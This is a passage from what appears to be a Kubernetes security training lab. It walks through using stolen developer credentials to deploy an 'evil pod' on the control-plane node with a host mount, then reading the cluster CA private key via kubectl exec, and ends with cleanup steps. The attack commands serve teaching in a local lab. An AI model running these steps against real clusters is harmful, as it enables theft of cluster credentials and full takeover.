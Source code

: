 **Note:** Notice you did that as kubernetes-admin account but with the context using your forged certificate

Now lets go back to pretending we've compromised the developer's credentials and switch to using them.

```
kubectl config use-context developer@kind-lab
```
Let's go back to the home directory
```
cd ~
```

You now no longer have a priv esc to exploit, but there's often another trick.

Let's take a look at a special pod manifest 
```
cat k8s-manifests/evilpod.yaml
```

Note the nodeName and volume mounts.

### Slide 141 - Evil Pod (Lab Cont.)

Let's create this pod and deploy it on the controlplane node. 
```
kubectl apply -f k8s-manifests/evilpod.yaml
```
**Note:** You cloud also run `create` instead of `apply` but apply will create if it doesn't exist and modify the pod specifications to match the manifest and restart it, if it does.

Now that the pod's running, we can run a simple command to steal the key from the host volume mounted inside of it.
```
kubectl exec -it -n pls-dont-hack-me evil-pod -- cat /controlplane/etc/kubernetes/pki/ca.key
```

Much more straight forward way of getting to the control plane as developer, that often works in Kubernetes nodes without Admissions Controller checks.

### Slide 145 - Cleanup

Switch back to original account/context
```
kubectl config use-context kind-lab
```

Verify your admin rights are back (look for * on resources and verbs)
```
kubectl auth can-i --list
```

This is optional, but run apply these manifests if you want to put back the service account and pod used in the priv esc lab if you want to do it again later.

```
kubectl apply -f k8s-manifests/serviceaccounts.yaml
```
